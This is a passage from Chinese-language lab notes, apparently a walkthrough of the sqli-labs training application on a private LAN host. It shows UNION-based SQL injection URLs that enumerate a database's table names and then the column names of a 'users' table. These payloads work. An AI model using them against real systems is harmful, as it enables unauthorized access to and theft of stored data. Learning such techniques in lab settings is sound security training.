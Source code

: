 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603213126994.png" alt="image-20230603213126994" style="zoom:50%;" />

### 8、获取当前数据库的所有数据表名（爆表）

```
group_concat()：将查询到的内容放到一行输出
```

```
http://192.168.231.129:9001/Less-1/?id=-1'+union+select+1,group_concat(table_name),3+from+information_schema.tables+where+table_schema=database()--+
```

![image-20230603203822792](%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603203822792.png)

### 9、获取指定数据表的所有字段名（爆字段）

```
http://192.168.231.129:9001/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
```
